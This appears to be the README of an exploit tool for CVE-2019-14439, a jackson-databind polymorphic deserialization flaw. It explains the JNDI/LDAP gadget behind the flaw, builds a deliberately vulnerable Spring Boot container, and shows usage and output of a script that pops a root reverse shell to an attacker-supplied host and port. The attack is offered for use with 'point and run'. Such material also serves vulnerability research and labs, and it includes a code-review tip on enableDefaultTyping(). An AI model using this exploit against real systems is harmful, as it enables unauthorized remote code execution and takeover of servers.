


# CVE-2019-14439 - jackson-databind-rce.py

## Description

A Polymorphic Typing issue was discovered in FasterXML jackson-databind 2.x before 2.9.9.2. This occurs when Default Typing is enabled (either globally or for a specific property) for an externally exposed JSON endpoint and the service has the logback jar in the classpath.

## Explanation

From version 2.10 they introduced 'Safe Default Typing' in Jackson-Databind when enable 'Polymorphic Type handling'. Its fixed as the developer specifically needs to tell what classes are allowed to use the polymorphic deserialization feature.

For versions bellow 2.10 its possible to archive RCE by abuse serialization gadgets as of the polymorphic get executed on deserialization. We abuse this by modify JNDI endpoint to load object from our ldap-refserver for remote code execution. 

Here is the JNDI gadget available in the classpath.



Before version 2.10 the jackson developers fixed this issue by blacklisted serialization gadgets. Thats why there is a lot of new CVE around Jackson-Databind as more gadgets was found to be abusable.  

Note if `enableDefaultTyping()` is not set in code then polymorphic type handling is not enabled and Jackson is not exploitable hence what version is used. So for whitebox testing, its of value to look for this in the code. 

```shell
ObjectMapper objectMapper = new ObjectMapper();
objectMapper.enableDefaultTyping();
```

## Usage

Build and start vulnerable springboot application that is running in docker.

```shell
⬢  jackson-vulnerable-app  master ⦿ docker-compose build
Building vulnserver
Step 1/10 : FROM gradle:7.3.1-jdk17-alpine AS builder
 ---> 45639f500c78
Step 2/10 : COPY --chown=gradle:gradle . /home/gradle/src
 ---> Using cache
 ---> 35bb049830b6
Step 3/10 : WORKDIR /home/gradle/src
 ---> Using cache
 ---> 8d1a0971dc16
Step 4/10 : RUN gradle bootJar --no-daemon
 ---> Using cache
 ---> fc19ec572763
Step 5/10 : FROM openjdk:8u181-jdk-alpine
 ---> 04060a9dfc39
Step 6/10 : EXPOSE 8000
 ---> Using cache
 ---> 2bb7e0ce3bc4
Step 7/10 : RUN mkdir /app
 ---> Using cache
 ---> c8f1e9035659
Step 8/10 : RUN apk add python
 ---> Using cache
 ---> 22febbdde723
Step 9/10 : COPY --from=builder /home/gradle/src/build/libs/*.jar /app/spring-boot-application.jar
 ---> Using cache
 ---> 8d1f1c42a198
Step 10/10 : CMD ["java", "-jar", "/app/spring-boot-application.jar"]
 ---> Using cache
 ---> 910709ff6b5d
Successfully built 910709ff6b5d
Successfully tagged jackson_deser_rcev2_vulnserver:latest

⬢  jackson-vulnerable-app  master ⦿ docker-compose up -d
Starting jackson_deser_rcev2_vulnserver_1 ... done

```

Now we have the vulnserver running.



```sh
⬢  jackson_deser_rceV2  master ⦿ ./jackson-databind-rce.py 

 ╦┌─┐┌─┐┬┌─┌─┐┌─┐┌┐┌╦═╗╔═╗╔═╗  
 ║├─┤│  ├┴┐└─┐│ ││││╠╦╝║  ║╣   
╚╝┴ ┴└─┘┴ ┴└─┘└─┘┘└┘╩╚═╚═╝╚═╝            
[nighter@nighter.se]
    
Usage: ./jackson-databind-rce.py <URL> <LHOST> <LPORT>
EXAMPLE: ./jackson-databind-rce.py 'http://127.0.0.1:8000' 192.168.1.75 7777
```

Just point and run and we have our shell.

```shell
⬢  jackson_deser_rceV2  master ⦿ ./jackson-databind-rce.py 'http://127.0.0.1:8000' 192.168.1.75 7777
[+] LHOST: 192.168.1.75
[+] Preparing payload
[+] Shell listen

# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
# hostname
cfcc64f63078
```

## Demo

[](https://asciinema.org/a/Xg5alZFpVtIu5RyQzB8XN8TVz)